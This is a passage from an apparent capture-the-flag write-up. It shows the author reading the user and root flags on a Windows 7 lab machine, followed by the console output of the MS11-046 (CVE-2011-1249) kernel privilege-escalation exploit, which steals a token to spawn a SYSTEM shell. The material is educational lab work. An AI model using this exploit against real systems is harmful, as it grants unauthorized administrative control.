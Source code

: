 From there, I can grab both flags (which for some reason each have an extra `.txt`):

```

c:\Users\babis\Desktop>type user.txt.txt
9ecdd6a3...

c:\Users\Administrator\Desktop>type root.txt.txt
e621a0b5...

```

Interestingly, when I exit the system shell, all of the things the exploit tried to print come out to the screen:

```

c:\Users\Administrator\Desktop>exit
[*] MS11-046 (CVE-2011-1249) x86 exploit
   [*] by Tomislav Paskalev
[*] Identifying OS
   [+] 32-bit
   [+] Windows 7
[*] Locating required OS components
   [+] ntkrnlpa.exe
      [*] Address:      0x82805000
      [*] Offset:       0x007c0000
      [+] HalDispatchTable
         [*] Offset:    0x008e93b8
   [+] NtQueryIntervalProfile
      [*] Address:      0x77225510
   [+] ZwDeviceIoControlFile
      [*] Address:      0x77224ca0
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request
      [+] Done
      [*] Elevating privileges to SYSTEM
         [+] Done
         [*] Spawning shell

[*] Exiting SYSTEM shell

```
